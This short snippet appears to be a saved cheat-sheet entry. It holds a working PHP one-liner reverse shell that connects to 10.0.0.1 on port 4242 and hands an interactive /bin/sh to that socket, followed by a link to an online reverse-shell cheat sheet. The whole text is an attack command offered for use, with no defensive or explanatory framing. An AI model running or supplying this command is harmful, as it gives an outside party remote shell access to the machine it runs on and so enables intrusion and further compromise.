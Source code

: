 # PHP  
    php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'


# link
    https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#python
